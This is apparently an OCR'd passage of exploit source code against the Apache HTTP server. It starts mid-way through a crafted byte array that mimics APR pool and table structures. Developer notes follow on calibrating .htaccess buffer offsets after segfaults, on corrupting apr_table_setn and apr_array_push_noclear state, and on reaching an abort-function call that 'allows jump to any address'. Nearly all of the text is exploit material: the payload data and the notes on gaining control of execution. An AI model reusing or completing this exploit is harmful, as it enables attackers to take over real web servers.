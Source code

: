     0xb8, 0x40, 0xe0, 0xc1, 0xbc, 0x40, 0xe0, 0xc1, // 0x.. == off 0x..
    0xc0, 0x40, 0xe0, 0xc1, 0xc4, 0x40, 0xe0, 0xc1, // 0x.. == off 0xc0
    0xc8, 0x40, 0xe0, 0xc1, 0xcc, 0x40, 0xe0, 0xc1, // 0x.. == off 0xc8
//  first                   end (0x14)
    0x19, 0x41, 0x40, 0xa9, 0x04, 0x51, 0x40, 0xc1, // 0x.. == off 0xd0
//  active                  pool
    0xc0, 0x40, 0x40, 0xc1, 0x21, 0x41, 0x40, 0xa9, // 0x.. == off 0xd8
//  elt_size                nelts
    0xfc, 0xff, 0xff, 0xff, 0xff, 0xfe, 0xff, 0xff, // 0x.. == off 0xe0
//  nalloc                  elts
    0x01, 0xff, 0xff, 0xff, 0x08, 0x41, 0x40, 0xa9, // 0x.. == off 0xe8
// 0-apr_table_setn 0x58b: key
//  index_initialized
    0x1a, 0x40, 0x40, 0xa9, 0xf4, 0x40, 0xe0, 0xc1, // 0x.. == off 0xf0
//                          1-apr_table_setn 613:
    0xf8, 0x40, 0xe0, 0xc1, 0xdc, 0x40, 0x40, 0xa9, // 0x.. == off 0xf8
    0x10, 0x40, 0xe0, 0xc1, 0xf4, 0x40, 0xe0, 0xc1, // 0xe8 == off 0x00
    0x08, 0x40, 0xe0, 0xc1, 0x0c, 0x40, 0xe0, 0xc1, // 0xf0 == off 0x08
    0x10, 0x40, 0xe0, 0xc1, 0x14, 0x40, 0xe0, 0xc1, // 0xf8 == off 0x10
  };
 
 
/*
x-memcpy:
.htaccess file buffer offset calibration when segfaulting:
print /x *(int)($esp+0x4c)-*(int)($esp+0x24)
 
0-apr_table_setn 0x58b: FIXME: MOVE CHECK
Read address of key, no writes to that location at the given location.
The lower 0x1f bits of key are used to construct the key hash,
used in hash-table offset calculation, so the lower 5 bits
should be simple to get a 0-index.
 
1-apr_table_setn 0x613: FIXME: MOVE CHECK
Read (t)->index_initialized in TABLE_INDEX_IS_INITIALIZED from
t+0x14. This value is compared to 1<<0x18 (0x1000000). Not clear,
if hash value depends on memlayout of apache server.
 
2-apr_table_setn 0x803: FIXME MOVE CHECK
Write key address from 0-apr_table_setn to address created
by table data multiplication. The target address is loaded
from $ebp-0x3c and was $eax return from call 0xab5878. Result
is from function apr_array_push_noclear (srclib/apr/tables/apr_tables.c).
The function uses table struct ptr from $ebp+0x8 (is 1-apr_table_setn
value).
 
If struct value at +0x8 (nelts) is same as +0xc (nalloc), then
apr_array_push_noclear will trigger new allocation.
 
Increment in struct adds 0-byte at +0x8, but not useable because size
value at +0x4.
 
3-apr_palloc: Call abortfunction
Allows jump to any address, but none of the other registers
contains user-controlled valued
 